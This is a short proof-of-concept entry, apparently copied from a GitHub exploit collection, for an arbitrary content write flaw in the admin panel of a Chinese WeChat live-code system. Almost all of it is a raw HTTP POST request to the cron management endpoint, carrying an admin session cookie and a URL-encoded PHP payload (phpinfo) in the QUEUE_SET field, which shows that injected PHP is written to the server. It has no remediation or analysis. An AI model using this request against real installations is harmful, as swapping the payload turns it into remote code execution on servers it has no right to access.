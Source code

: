 # wxhm_filewrite

from: https://github.com/wy876/POC/blob/main/%E5%BE%AE%E4%BF%A1%E6%B4%BB%E7%A0%81%E7%B3%BB%E7%BB%9F/%E5%BE%AE%E4%BF%A1%E6%B4%BB%E7%A0%81%E7%B3%BB%E7%BB%9F%E5%90%8E%E5%8F%B0%E4%BB%BB%E6%84%8F%E5%86%85%E5%AE%B9%E5%86%99%E5%85%A5.md
product: 微信活码系统

```
POST /index.php?s=/manage/cron/index HTTP/1.1
Host: 192.168.18.137
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
Cookie: think_language=zh-CN; PHPSESSID=6e7n0os6qsvnlsthdns1dj1n95; qn_admin_think_language=zh-CN; qn_admin___forward__=%2Findex.php%3Fs%3D%2Fmanage%2Fconfig%2Findex; qn_admin_video_get_info=%2Findex.php%3Fs%3D%2Fhome%2Fpublic%2Fgetvideo
Priority: u=0
X-Requested-With: XMLHttpRequest
Origin: http://192.168.18.137
Accept: application/json, text/javascript, */*; q=0.01
Accept-Encoding: gzip, deflate
Referer: http://192.168.18.137/index.php?s=/manage/cron/index
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Length: 38

QUEUE_SET=%3C%3Fphp+phpinfo()%3B%3F%3E
```
